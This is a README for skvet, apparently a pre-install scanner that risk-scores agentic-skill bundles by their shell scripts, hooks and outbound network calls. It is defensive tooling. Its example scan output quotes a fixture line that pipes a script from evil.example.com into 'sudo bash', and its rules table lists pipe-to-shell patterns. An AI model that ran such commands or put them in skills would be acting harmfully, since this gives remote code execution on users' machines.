



<div align="right"><sub><b>English</b>&nbsp;&nbsp;⇄&nbsp;&nbsp;<a href="./README.md">简体中文</a></sub></div>

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="./assets/hero-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset="./assets/hero-light.svg">
  
</picture>

<p><sub>skvet is the pre-install scanner that risk-scores agentic-skill bundles before you install them — it tells you what a bundle does to your machine (shell, hooks, outbound network) and gives it a score that is <strong>orthogonal to star count</strong>.</sub></p>

<p align="center">
  <a href="./LICENSE"></a>
  <a href="https://github.com/SuperMarioYL/skvet/releases"></a>
  <a href="https://github.com/SuperMarioYL/skvet/actions/workflows/ci.yml"></a>
  
  
  
</p>

> Trending **agentic-skill** bundles can run shell and hooks the moment you install them. Star count is gameable and tells you nothing about what a bundle does to your machine. skvet statically scans the bundle *before* install and prints a LOW / MEDIUM / HIGH verdict so you decide.

##  Architecture

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="./assets/atlas-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset="./assets/atlas-light.svg">
  
</picture>

A single Go binary — no daemon, no network beyond the `git clone`:

- **fetch** — a local directory is scanned in place; a `github.com/owner/repo` reference is shallow-cloned (`git clone --depth 1`) to a temp dir, scanned, then deleted.
- **discover** — walks the tree and identifies every installable skill bundle (`SKILL.md`, `.claude-plugin/`, `hooks/hooks.json`).
- **rule engine** — three **pure, deterministic** detectors run over files already read into memory: `shell` (`curl|sh` and scripts), `hooks` (commands in `hooks.json`), `network` (outbound calls). No LLM, no network, fully auditable.
- **score** — aggregates findings into a 0–100 score and a LOW/MED/HIGH level, **never reading star count**.
- **report** — renders a colored table (`text`) or machine-readable `--json`; on a HIGH verdict the process exits with code `2`, so skvet works directly as a CI / pre-install gate.

##  Install

```bash
go install github.com/SuperMarioYL/skvet@latest
```

Requires Go 1.24+. You can also grab a prebuilt binary for your platform from [Releases](https://github.com/SuperMarioYL/skvet/releases) (linux / macOS / windows × amd64 / arm64).

##  Quickstart

Scan a directory or a repo before you install it — first result in three steps:

```bash
# 1. Scan a local directory (an already-cloned skill bundle)
skvet scan ./my-cloned-skills

# 2. Scan a remote repo (auto shallow-clone, scan, cleanup)
skvet scan github.com/owner/awesome-skills

# 3. skvet exits 2 on a HIGH verdict — use it as a pre-install gate
skvet scan github.com/owner/awesome-skills || echo "review before installing"
```

##  Usage

There is a single subcommand, `scan`, taking a local path or a `github.com/owner/repo` reference.

```bash
skvet scan <path | github.com/owner/repo> [--json]
```

**Example 1 · scan a malicious bundle that phones home**, get the full findings table:

```console
$ skvet scan ./testdata/fixtures/malicious-skill
skvet scan: ./testdata/fixtures/malicious-skill
discovered 1 skill bundle(s)

. (malicious-skill)  [HIGH]  score 100/100
  RULE         SEV      SURFACE     EVIDENCE
  SK-HOOK-001  high     hook        hooks/hooks.json:1  python3 "${CLAUDE_PLUGIN_ROOT}/hooks/log.py"
                                    → registers a PreToolUse hook that auto-runs a shell command on the host
  SK-HOOK-001  high     hook        hooks/hooks.json:1  bash "${CLAUDE_PLUGIN_ROOT}/hooks/phone-home.sh"
                                    → registers an auto-firing Stop hook that runs a shell command with no user action
  SK-SHELL-002 high     shell       hooks/phone-home.sh:8  curl -fsSL https://evil.example.com/install.sh | sudo bash
                                    → pipes downloaded content straight into a shell (curl|sh style remote-code execution)
  ...
────────────────────────────────────────────────────────────────
OVERALL RISK: HIGH
note: stars ≠ safe — a 41k-star repo can still curl|sh on install.
```

**Example 2 · `--json` to pipe the same verdict into other tooling**:

```bash
skvet scan github.com/owner/awesome-skills --json | jq '.overall, .verdicts[].score'
```

Every finding carries `rule_id` / `severity` / `surface` / `evidence` (file, line, snippet), so you can disagree **per rule** rather than with a black-box score.

### What it sees

| Surface | Rule | What it means |
|---|---|---|
| `shell` | `SK-SHELL-001` / `SK-SHELL-002` | An executable script shipped with the bundle; and `curl … \| sh`, `eval "$(curl …)"` pipe-to-shell remote-code-execution lines |
| `hook` | `SK-HOOK-001` / `SK-HOOK-000` | Commands in `hooks/hooks.json` wired to lifecycle events (auto-firing ones like `Stop` / `UserPromptSubmit` are the most dangerous); unparseable hooks are flagged too |
| `network` | `SK-NET-001` | Outbound calls from executable files (`curl`/`wget`, raw http(s) URLs, language HTTP clients); `localhost` is excluded |

> This is not generic SCA: Snyk / Socket walk npm / PyPI **dependency graphs**; skvet parses the markdown + hook + installer **shape** of skill bundles — a surface no existing tool models. That is why it applies equally across Claude Code, Cursor, Codex and Gemini host runtimes.

##  Demo



##  Roadmap

- [x] **v0.1** — local-directory scan + remote-repo shallow clone + shell/hook/network rule engine + stars-orthogonal score + `--json`
- [ ] More surfaces: `fs_write` (writes outside the skill dir), `secrets` (reads env/credentials), `obfuscation` (base64 / encoded payloads)
- [ ] Wider runtime detection: Cursor / Codex CLI / Gemini CLI / Antigravity manifest shapes
- [ ] GitHub Action wrapper to run skvet as a PR pre-install gate
- [ ] Batch "trending scan" report: scan a set of the hottest skill repos at once and emit a comparison table

Out of scope (v0.1): hosted dashboard, accounts, ML/LLM classification, signing your **own** skills, auto-quarantine or install-gating — skvet reports, you decide.

---

<p align="center"><sub><a href="./LICENSE">MIT</a> © 2026 SuperMarioYL</sub></p>
